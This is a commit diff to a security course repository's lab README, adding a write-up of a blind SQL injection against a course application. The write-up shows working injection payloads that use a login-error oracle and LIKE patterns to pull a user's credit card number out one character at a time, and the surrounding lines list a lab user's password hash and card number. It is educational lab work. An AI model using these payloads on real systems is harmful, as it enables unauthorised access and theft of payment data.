

Before and after one commit to boostvolt/software-and-system-security-1, a Markdown page: labs/03/README.md, the part around the change. Shown: that part at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Document SQL injection attack steps in README
Added detailed steps for SQL injection attack on the application, including character extraction for credit card.

```diff
--- a/labs/03/README.md
+++ b/labs/03/README.md
@@ -234,3 +234,44 @@ Or in Humanized form:
 - Username: `charlie`
 - Password hash:`5cb7285acef8307dd824faa96b4956971730641083237f393bded9591ff10eae
 - Credit Card number: `2028 4889 0003 9887`
+
+# 3 SCHOGGI: Blind SQL Injection Solution
+
+## Attack Steps Description
+
+### Step 1: Initial Reconnaissance
+- Tested login with existing username `alice` vs non-existing username `test`
+- Observed different HTTP responses in Burp Suite:
+  - Existing user: `Invalid user or password`
+  - Non-existing user: `Error during login`
+
+### Step 2: Confirming SQL Injection
+- Injected `alice'-- ` as username
+- Got `Invalid user or password` (expected `Error during login`)
+- Confirms vulnerability: query becomes `SELECT * FROM users WHERE username='alice'--'`
+
+### Step 3: Establishing the Oracle
+- Tested `alice' AND (1=1)-- ` → `Invalid user or password` (TRUE)
+- Tested `alice' AND (1=0)-- ` → `Error during login` (FALSE)
+- Oracle: TRUE = "Invalid user or password", FALSE = "Error during login"
+
+### Step 4: Extracting Credit Card with LIKE Pattern
+Used LIKE with wildcard `%` to guess each character:
+
+**Character 1:**
+`alice' AND credit_card LIKE '2%'-- ` → Invalid user or password ✓
+
+**Character 2:**
+`alice' AND credit_card LIKE '20%'-- ` → Invalid user or password ✓
+
+**Character 3:**
+`alice' AND credit_card LIKE '203%'-- ` → Invalid user or password ✓
+
+**Character 4:**
+`alice' AND credit_card LIKE '2034%'-- ` → Invalid user or password ✓
+
+Continued this pattern, testing 0-9 and space for each position until no match found.
+
+## First Four Characters of Mallory's Credit Card
+
+**2034**
```
